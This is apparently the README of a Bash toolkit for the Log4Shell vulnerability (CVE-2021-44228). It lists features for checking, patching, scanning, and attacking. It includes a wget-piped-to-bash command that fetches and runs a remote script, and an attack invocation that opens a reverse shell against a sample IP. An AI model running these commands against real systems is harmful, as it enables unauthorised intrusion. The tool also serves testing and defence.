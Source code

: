 # log4shell4shell
Log4j - Multitool. Find &amp; fix possible CVE-2021-44228 vulneraries - provides a complete LOG4SHELL test/attack environment

![Thumb](/logo_banner.png )

# Features

- check your System for CVE-2021-44228 vulneraries
- fix yout system by deleting log4j java class
- you can run a dummy spring boot server for testing the exploit by yourself (https://github.com/christophetd/log4shell-vulnerable-app)
- you can run a attack against a wished IP-Port and include a Base64 Command / Or A simple Reverse Shell
- full ip-range scanning by https://github.com/fullhunt/log4j-scan

### This script is easy to run on your linux distribution by:

```bash
wget https://raw.githubusercontent.com/suuhm/log4shell4shell/main/log4shell4shell.sh -qO- | bash -s -- --check-system
```

#### Run a sample attack against IP: 10.4.4.20 Port 8080 and additionally a Reverse Proxy Shell :

```bash
./l4s4s.sh --run-attack 10.4.4.20:8080 -e
```

#### Run a full scan  IP: 10.4.4.20 Port 8080 and additionally a try all tests :

```bash
./l4s4s.sh --python-scan "-u 10.4.4.20:8080 --run-all-tests"
```


### Options

```bash
_|                            _|  _|              _|                  _|  _|  _|  _|              _|                  _|  _|
_|          _|_|      _|_|_|  _|  _|      _|_|_|  _|_|_|      _|_|    _|  _|  _|  _|      _|_|_|  _|_|_|      _|_|    _|  _|
_|        _|    _|  _|    _|  _|_|_|_|  _|_|      _|    _|  _|_|_|_|  _|  _|  _|_|_|_|  _|_|      _|    _|  _|_|_|_|  _|  _|
_|        _|    _|  _|    _|      _|        _|_|  _|    _|  _|        _|  _|      _|        _|_|  _|    _|  _|        _|  _|
_|_|_|_|    _|_|      _|_|_|      _|    _|_|_|    _|    _|    _|_|_|  _|  _|      _|    _|_|_|    _|    _|    _|_|_|  _|  _|
                          _|
                      _|_|

 > Running Log4shell Framework & Check-Toolkit on shell v0.1a (C) 2021 suuhm
 

Usage: ./l4s4s.sh [OPTIONS] <IP:PORT|COMMAND>

                        --get-powershell-finder
                        --check-system
                        --fix-log4j
                        --run-dummy-server <LDAP-SERVER.zip>
                        --run-attack <FORMAT: IP:PORT> <-e/-t>
                        --python-scan <command>

```

### This script is alpha! So please let me know if you have some issues

### Legal Disclaimer

The project log4shell4shell is made for educational and ethical testing purposes only. Usage of log4j-scan for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.
